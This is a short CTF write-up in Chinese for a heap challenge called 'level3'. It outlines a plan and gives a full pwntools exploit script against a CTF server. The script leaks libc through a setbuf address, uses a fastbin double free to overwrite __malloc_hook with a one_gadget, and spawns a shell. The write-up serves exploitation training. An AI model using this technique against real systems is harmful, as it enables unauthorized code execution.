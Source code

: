 # level3
### 思路
1. 给了一个libc函数setbuf的地址，可以推算libc的基地址。 
2. 利用double free在malloc_hook附近开一个新的内存块，将malloc_hook的地址修改成one_gadget，可以再次调用malloc就可以拿shell.
3. 由于one_gadget的条件都不满足，连续free两次一个区块，错误处理的时候，会调用malloc_hook。

### exp
```python
from pwn import *
context.log_level="debug"
pwn_file="./level3-double-free"
elf=ELF(pwn_file)
libc=elf.libc

if len(sys.argv)==1:
    r=process(pwn_file)
    pid=r.pid
else:
    r=remote("pwn.sixstars.team",22503)
    pid=0

def debug():
    log.debug("process pid:%d"%pid)
    pause()

def addnote(content = ''):
    r.recvuntil(">> ")
    r.sendline("1")
    r.recvuntil("Content: ")
    if content:
      r.sendline(content)
    else:
      r.sendline('abc')

def deletenote(nid):
    r.recvuntil(">> ")
    r.sendline("3")
    r.recvuntil("Input your id:")
    r.sendline(str(nid))

setbuf_addr = r.recvline()[-15:-1]
setbuf_addr = int(setbuf_addr,16)
libc.address = setbuf_addr - libc.sym["setbuf"]
print hex(libc.address)

addnote() #0
addnote() #1
deletenote(0) 
deletenote(1)
deletenote(0)

malloc_block = libc.sym['__malloc_hook'] -0x23 

print hex(malloc_block)
addnote(p64(malloc_block)) # 2 is previous 0
addnote() # 3 
addnote() # 4 

one_gadget = 0xf02a4
sh_addr = libc.address + one_gadget
payload2 = 'a'*19 + p64(sh_addr)
addnote(payload2) # 5

deletenote(3)

r.recvuntil(">> ")
r.sendline("3")
r.recvuntil("Input your id:")
debug()
r.sendline("3")
r.interactive()
```